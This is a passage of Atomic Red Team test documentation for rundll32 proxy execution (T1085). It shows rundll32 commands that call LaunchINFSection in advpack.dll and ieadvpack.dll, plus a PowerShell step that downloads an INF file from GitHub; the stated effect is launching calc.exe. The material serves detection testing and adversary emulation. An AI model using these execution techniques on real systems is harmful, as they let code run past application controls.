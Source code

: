 #### Attack Commands: Run with `command_prompt`!

```cmd
rundll32.exe advpack.dll,LaunchINFSection #{inf_to_execute},DefaultInstall_SingleUser,1,
```

#### Dependencies:  Run with `powershell`!

##### Description: Inf file must exist on disk at specified location (#{inf_to_execute})

##### Check Prereq Commands:

```powershell
if (Test-Path #{inf_to_execute}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory (split-path #{inf_to_execute}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1085/src/T1085.inf" -OutFile "#{inf_to_execute}"
```

<br/>
<br/>

## Atomic Test #4 - Rundll32 ieadvpack.dll Execution

Test execution of a command using rundll32.exe with ieadvpack.dll.
Upon execution calc.exe will be launched

Reference: https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSLibraries/Ieadvpack.yml

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| inf_to_execute | Local location of inf file | string | PathToAtomicsFolder&#92;T1085&#92;src&#92;T1085.inf|

#### Attack Commands: Run with `command_prompt`!

```cmd
rundll32.exe ieadvpack.dll,LaunchINFSection #{inf_to_execute},DefaultInstall_SingleUser,1,
```

#### Dependencies:  Run with `powershell`!

##### Description: Inf file must exist on disk at specified location (#{inf_to_execute})

##### Check Prereq Commands:
